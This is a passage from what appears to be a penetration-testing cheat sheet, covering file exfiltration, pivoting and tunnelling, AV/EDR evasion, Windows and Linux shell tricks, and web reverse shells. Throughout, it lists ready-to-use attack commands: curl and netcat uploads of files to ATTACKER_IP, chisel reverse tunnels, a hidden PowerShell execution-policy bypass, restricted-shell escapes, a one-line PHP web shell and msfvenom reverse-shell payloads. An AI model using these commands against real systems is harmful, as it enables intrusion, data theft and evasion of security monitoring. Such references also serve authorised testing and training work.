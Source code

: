 ## 7. File Transfer Cheat Sheet
- From target to attacker via curl:
  - curl -F 'file=@/path/file' http://ATTACKER_IP/upload
- Base64 over terminal:
  - base64 file | tr -d "\n"; on attacker: echo -n '...b64...' | base64 -d > file
- Netcat piping:
  - Attacker: nc -lvnp 9001 > loot.bin
  - Target: nc ATTACKER_IP 9001 < loot.bin
- PowerShell:
  - [IO.File]::WriteAllBytes('out.bin',[Convert]::FromBase64String('BASE64'))

## 8. Pivoting, Port Forwarding, and Tunneling
- SSH dynamic SOCKS proxy:
  - ssh -D 1080 user@pivot -N
- SSH local forward:
  - ssh -L 8080:internal:80 user@pivot
- Chisel:
  - Server (attack box): chisel server -p 8000 --reverse
  - Client (target->attack): chisel client ATTACKER_IP:8000 R:9001:127.0.0.1:3389
- Socat TCP forward:
  - socat tcp-listen:8080,reuseaddr,fork tcp:internal:80
- SSHuttle (transparent proxy for subnets):
  - sshuttle -r user@pivot 10.0.0.0/24

## 9. AV/EDR Evasion Basics (Ethical/Legal Only)
- Obfuscation: PowerShell string obfuscation, base64 encode, environment variable splits.
- LOLBAS: rundll32, regsvr32, mshta, installutil, wmic for proxy exec.
- Binary hardening: compile with different packers, change entropy/profile, sleep/jitter, indirect syscalls (advanced).
- AMSI and Script Block logging bypasses change frequently; prefer in-memory and signed binaries in legit tests with approvals.

## 10. Windows Notes
- Execution policy bypass:
  - powershell -ep bypass -nop -w hidden -c "..."
- UAC contexts: high-integrity vs medium; token privileges matter for lateral movement.
- Named pipe reverse shells (Cobalt/Meterpreter) useful inside Windows networks.
- SMB exec tools: psexec.py, wmiexec.py, smbexec.py (Impacket) for semi-interactive shells.

## 11. Linux/Unix Notes
- Restricted shells (rbash) escapes:
  - vi/vim :! /bin/sh
  - awk 'BEGIN { system("/bin/sh") }'
  - find . -exec /bin/sh \; -quit
- SUID/Capabilities can spawn rootshell when misconfigured (GTFOBins reference).

## 12. Web Reverse Shells
- PHP:
  - <?php system($_GET['cmd']); ?>
  - pentestmonkey php-reverse-shell.php (configure IP/PORT)
- ASPX:
  - msfvenom -p windows/x64/meterpreter/reverse_tcp -f aspx -o shell.aspx LHOST=IP LPORT=PORT
- JSP:
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw -o shell.jsp
